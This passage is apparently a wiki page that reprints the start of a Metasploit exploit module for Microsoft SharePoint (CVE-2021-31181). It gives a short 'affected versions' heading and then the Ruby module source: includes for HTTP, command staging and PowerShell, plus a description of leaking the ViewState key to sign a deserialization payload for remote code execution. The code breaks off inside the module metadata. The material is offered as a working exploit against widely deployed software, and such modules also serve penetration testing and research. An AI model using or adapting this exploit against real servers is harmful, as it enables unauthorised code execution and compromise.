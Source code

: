 <languages /> <translate>

影響版本
--------

</translate> Tested against SharePoint 2019 and SharePoint 2016, both on Windows Server 2016.

EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::Remote::HTTP::Sharepoint
      include Msf::Exploit::CmdStager
      include Msf::Exploit::Powershell

      XML_NS = {
        'wpp' => 'http://microsoft.com/sharepoint/webpartpages',
        'soap' => 'http://www.w3.org/2003/05/soap-envelope',
        'xsi' => 'http://www.w3.org/2001/XMLSchema-instance',
        'xsd' => 'http://www.w3.org/2001/XMLSchema'
      }.freeze

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Microsoft SharePoint Unsafe Control and ViewState RCE',
            'Description' => %q{
              The EditingPageParser.VerifyControlOnSafeList method fails to properly validate user supplied data. This
              can be leveraged by an attacker to leak sensitive information in rendered-preview content. This module will
              leak the ViewState validation key and then use it to sign a crafted object that will trigger code execution
              when deserialized.

              Tested against SharePoint 2019 and SharePoint 2016, both on Windows Server 2016.
            },
            'Author' => [
              'Unknown', # Reported to HP ZDI team, Vulnerability discovery
              'Spencer McIntyre', # Module
              'wvu' # Module
            ],
            'References' => [
              [ 'CVE', '2021-31181' ],
              [ 'ZDI', '21-573' ],
              [ 'URL', 'https://www.zerodayinitiative.com/blog/2021/6/1/cve-2021-31181-microsoft-sharepoint-webpart-interpretation-conflict-remote-code-execution-vulnerability' ]
            ],
            'DisclosureDate' => '2021-05-11',
            'License' => MSF_LICENSE,
            'Platform' => 'win',